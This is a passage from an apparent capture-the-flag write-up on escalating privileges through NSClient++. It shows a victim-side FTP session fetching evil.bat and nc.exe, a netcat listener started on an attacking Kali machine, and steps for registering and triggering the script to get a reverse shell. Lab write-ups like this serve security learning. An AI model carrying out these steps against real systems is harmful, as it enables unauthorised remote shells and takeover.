 ~~~
Password:
230 OK. Current directory is /
ftp> get evil.bat
200 PORT command successful
150 Connecting to port 51951
226-File successfully transferred
226 0.000 seconds (measured here), 417.48 Kbytes per second
ftp: 53 bytes received in 0.00Seconds 53000.00Kbytes/sec.
ftp> get nc.exe
200 PORT command successful
150-Connecting to port 51962
150 58.0 kbytes to download
226-File successfully transferred
226 0.068 seconds (measured here), 0.83 Mbytes per second
ftp: 59584 bytes received in 0.10Seconds 572.92Kbytes/sec.
ftp> quit

221-Goodbye. You uploaded 0 and downloaded 59 kbytes.
221 Logout.

nadine@SERVMON c:\Temp>dir  
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of c:\Temp

27/05/2020  17:34    <DIR>          .
27/05/2020  17:34    <DIR>          ..
27/05/2020  17:34                53 evil.bat
27/05/2020  17:34            59,584 nc.exe
               2 File(s)         59,637 bytes
               2 Dir(s)  27,869,081,600 bytes free
~~~

Next step of the process:      
"*4. Setup listener on attacking machine*"

~~~
root@kali:~# nc -nlvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
~~~

Then (we are almost done):      
"*5. Add script foobar to call evil.bat and save settings*"

We go in the **"Settings"** menu and click **"Add new"** to add our script "evil.bat":

![nsc-settings](images/nsc-settings.png "nsc-settings")

Step 6 proposes to schedule the script, but clicking the **"Control"** button in the upper-right corner allows to restart NSClient and then we just have to run our script from the **"Queries"** tab using the **"myshell"** button (the one we previously set when adding our script):
